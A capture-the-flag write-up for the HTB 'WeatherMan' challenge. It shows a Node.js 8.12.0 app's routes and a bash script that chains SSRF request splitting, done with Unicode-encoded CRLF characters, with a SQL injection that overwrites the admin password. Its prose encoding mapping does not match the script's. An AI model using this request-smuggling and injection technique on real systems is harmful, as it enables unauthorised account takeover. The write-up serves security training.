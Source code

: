 #  WeatherMan HTB Challenge 

__________________________________________

This app works on nodejs, particulary on a vulnerable nodejs 8.12.0

## Objective

The goal is to login as admin to retrieve the flag:
```js
router.post('/login', (req, res) => {
	let { username, password } = req.body;

	if (username && password) {
		return db.isAdmin(username, password)
			.then(admin => {
				if (admin) return res.send(fs.readFileSync('/app/flag').toString());
				return res.send(response('You are not admin'));
```

There's a register page where we can not register unless we are requesting from localhost:
```js
router.post('/register', (req, res) => {

	if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
		return res.status(401).end();
	}

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}
```

Also there is an api/weather:

```js
router.post('/api/weather', (req, res) => {
	let { endpoint, city, country } = req.body;

	if (endpoint && city && country) {
		return WeatherHelper.getWeather(res, endpoint, city, country);
	}

	return res.send(response('Missing parameters'));
```

The credentials are taken care by a SQL db.

**So we need to first bypass the localhost restriction with SSRF attack and try a way to SQLinjection to be admin**

# Exploit

So make a POST request to /api/weather, into the endpoint parameter put the SSRF splitting Payload encoding the space "\u0120" the \r "\u010D"and \u "\u010A".
The sqli update the password. 


This bash script do it quickly!

```bash
#!/bin/bash

# User credentials
username="admin"
password="') ON CONFLICT (username) DO UPDATE SET password = 'passwd123';--"

# Encode username and password
username=$(echo "$username" | sed 's/ /\\u0120/g; s/'\''/%27/g; s/"/%22/g')
password=$(echo "$password" | sed 's/ /\\u0120/g; s/'\''/%27/g; s/"/%22/g')

# Construct the endpoint
endpoint="127.0.0.1/\\u0120HTTP/1.1\\u010C\\u010AHost:127.0.0.1\\u010C\\u010A\\u010C\\u010APOST/register\\u0120HTTP/1.1\\u010C\\u010AHost:127.0.0.1\\u010C\\u010AContent-Type:application/x-www-form-urlencoded\\u010C\\u010AContent-Length:$((${#username} + ${#password} + 19))\\u010C\\u010A\\u010C\\u010Ausername=${username}&password=${password}\\u010C\\u010A\\u010C\\u010AGET\\u0120"

# Make the POST request
curl -X POST 'http://MACHINE_IP:MACHINE_PORT/api/weather' -H 'Connection: close' -d "endpoint=$endpoint&city=Rome&country=IT"

```